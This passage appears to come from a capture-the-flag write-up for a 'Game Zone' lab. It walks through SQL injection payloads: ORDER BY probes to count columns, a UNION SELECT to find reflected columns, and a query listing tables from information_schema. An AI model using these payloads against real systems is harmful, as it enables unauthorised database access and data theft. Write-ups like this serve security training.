 ```
' ORDER BY 1 -- -
' ORDER BY 2 -- -
' ORDER BY 3 -- -
' ORDER BY 4 -- -
```

With the last one the page prints out this error

![](/assets/img/game-zone-order-by-error.PNG)

This tells us that the query use three columns. Let's see which one are reflected in the page output

```
' UNION SELECT 1, 2, 3 -- -
```

![](/assets/img/game-zone-union-reflection.PNG)

The second and the third one are used as the page output. We need to use these two to print out the results of our queries. Let's get the current tables

```
' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema = DATABASE() -- -
```

![](/assets/img/game-zone-table-name.PNG)
